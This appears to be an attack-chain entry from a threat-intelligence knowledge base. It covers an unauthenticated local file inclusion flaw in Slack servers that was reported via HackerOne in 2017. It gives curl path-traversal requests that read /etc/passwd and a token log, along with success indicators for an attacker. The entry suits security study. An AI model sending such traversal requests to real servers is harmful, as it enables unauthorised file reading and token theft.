

---
tags:
  - lfi
  - information-disclosure
  - token-leak
  - php
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Unauthenticated-LFI-for-File-Disclosure]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:28.027Z'
description: >-
  An unauthenticated LFI vulnerability in Slack's web application endpoints
  allows attackers to disclose local files, including PHP source code and logs
  containing sensitive tokens, leading to high-severity information disclosure.
skill_level: intermediate
impact_level: high
id: bacdf511-fd78-4905-a784-2c93f82db51c
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# Unauthenticated Local File Inclusion Disclosing Sensitive Logs and Tokens in Slack Servers

## Overview

This attack chain exploits an unauthenticated Local File Inclusion (LFI) vulnerability in Slack's web application servers. Discovered by researcher juji and reported on September 28, 2017, via HackerOne (Report #272578), the flaw stems from insufficient input validation in certain endpoints, allowing remote attackers to read arbitrary local files without authentication. This includes PHP files and server logs that inadvertently contain sensitive information, such as API tokens. The vulnerability enables high-impact information disclosure, potentially compromising internal systems if tokens are active. Slack investigated and revoked exposed tokens post-disclosure.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None specific (uses standard HTTP client like curl)

### Target Environment

- Web platform with PHP backend
- Vulnerable endpoints on Slack servers (e.g., specific web application paths)
- No authentication required

### Initial Access Requirements

- Public network access to the target web application
- No credentials needed due to unauthenticated nature
- Basic knowledge of HTTP requests and file paths

## Detailed Attack Procedures

### Step 1: Exploit LFI for File Disclosure
procedure: [[procedures/Exploit-Unauthenticated-LFI-for-File-Disclosure]]

**Objective**: Gain unauthorized access to local files on the server, including logs with sensitive tokens, by manipulating input parameters to include arbitrary files.

**Instructions**: Identify a vulnerable endpoint (e.g., a parameter like 'file' or 'page' in the URL that accepts user input without sanitization). Use [[commands/curl-lfi-exploit]] to craft an HTTP request that includes a target file path, such as a log file or PHP source.

```bash
curl -X GET "https://vulnerable.slack-server.com/endpoint?file=../../../etc/passwd" -v
```

For sensitive logs, adjust the path to target log directories (e.g., `/var/log/slack/app.log`).

```bash
curl -X GET "https://vulnerable.slack-server.com/endpoint?file=../../../../var/log/slack/tokens.log" -v
```

**Expected Output**: The response body contains the contents of the included file, such as user data from /etc/passwd or leaked tokens from logs.

**Success Indicators**:
- HTTP response includes file contents (e.g., readable PHP code or log entries with tokens)
- No authentication prompt or error denying access
- Evidence of sensitive data like API keys in the output

## Attack Chain Summary

### Key Achievements

1. Unauthenticated access to server files without credentials
2. Disclosure of PHP source code revealing application logic
3. Extraction of sensitive tokens from logs, enabling potential further compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
